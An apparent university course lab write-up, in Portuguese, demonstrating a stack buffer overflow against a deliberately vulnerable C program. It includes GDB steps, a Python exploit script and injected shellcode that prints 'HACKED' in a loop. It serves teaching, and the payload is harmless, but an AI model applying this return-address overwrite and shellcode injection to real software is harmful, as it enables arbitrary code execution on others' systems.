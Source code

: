 # Segurança de Software 2020

## 1 - HACKED VIRUS
### Descrição
Ataque por Buffer Overflow a um programa em C que lê ficheiro e escreve o seu conteúdo em memória.

#### Compilação
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack
```

#### Ferramentas utilizadas
* [GDB GEF](https://github.com/hugsy/gef) - Debbug
* [Python](https://www.python.org/) - Desenvolvimento do exploit
* [Objdump](https://sourceware.org/binutils/docs/binutils/objdump.html) - Visualização

#### Ficheiros auxiliares
* teste_stack_exec.c - Verificar compilação.
* findPrintf.c - Encontrar endereço da função printf.
* Virus.c - Para compilar o virus pretendido.

#### Passos
* Visualização do código fonte (stack.c)
```c
void foo(char *str, int s)
{
    char buffer[32];
    /* buffer overflow here */
    cpy(buffer, str, s);
}
```
* Causa erro
```bash
python -c 'print "A"*8*5' > smasher; ./stack
```
* Debbug (GDB)
```bash
gdb stack
```
Meter um BreakPoint no fim da função foo, antes de haver um retorno à main e correr.
```bash
gef> disas foo
```
```bash
gef> b * 0x0000000000401198
```
```bash
gef> run
gef> fin
```
Como se pode ver na imagem seguinte,  o $rip (0x0000000000401206) está a apontar para a posição de memória da função main, de forma a continuar o fluxo de programa normalmente. Vamos tentar perceber em que sitio da memoria este apontador está.
//IMAGEM 1

 Vamos agora ver com mais atenção o conteúdo da stack, utilizando como referencia o $rdi.
 ```bash
gef> x/100x 0x00007fffffffdf90 - 32
```
Como podemos ver na imagem seguinte, encontrámos os nossos  32 "A"'s (0x41) na stack, será que encontramos também o endereço de retorno? Terá que conter, como já vimos, o endereço: 0x0000000000401206
Na imagem seguinte encontramos o nosso target!
//IMAGEM2

Assim sendo, podemos agora concluir que para escrever o nosso exploit de forma a que corra o nosso vírus, teremos que chegar à posição de retorno e escrever lá um endereço a nosso favor. Para além dos 32 bytes do buffer, temos ainda o $ebp com 8 bytes. sendo os próximos 8 bytes para o endereço de retorno. 

* Compilar virus
Vamos compilar o nosso virus e passá-lo para hexadécimal de forma a ser mais fácil a sua inserção no ficheiro.
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack virus.c -o virus
```
Agora vamos copiar o código assembly para um ficheiro.
```bash
objdump virus -d
```
Vamos então começar a escrever o nosso exploit em Python
```python
buf = ('A' * 32).encode() #41
ebp = ('B' * 8).encode()  #42
call_virus = b'\xc0\xdf\xff\xff\xff\x7f\x00\x00'

virus =  b'\x55\x48\x89\xe5\x48\x83\xec\x20'
virus += b'\x89\x7d\xec\x48\x89\x75\xe0\xc6'
virus += b'\x45\xf8\x48\xc6\x45\xf9\x41\xc6'
virus += b'\x45\xfa\x43\xc6\x45\xfb\x4b\xc6'
virus += b'\x45\xfc\x45\xc6\x45\xfd\x44\xc6'
virus += b'\x45\xfe\x0a\xc6\x45\xff\x00\x48'
virus += b'\x8d\x45\xf8\x48\xba\x20\xea\xe4'
virus += b'\xf7\xff\x7f\x00\x00\x48\x89\xc7'
virus += b'\xb8\x00\x00\x00\x00\xff\xd2\xeb'
virus += b'\xe6\x0f\x1f\x44\x00\x00\x00\x00'

exploit = (buf + ebp + call_virus + virus)

file_name = 'smasher'
f = open(file_name, 'wb') #write bytes
f.write(exploit)
f.close()
```

Vamos então ver se resultou.

```bash
python exploit.py
gdb stack
gef> run
#HACKED
#HACKED
#HACKED
#HACKED
#...
```
# HACKED!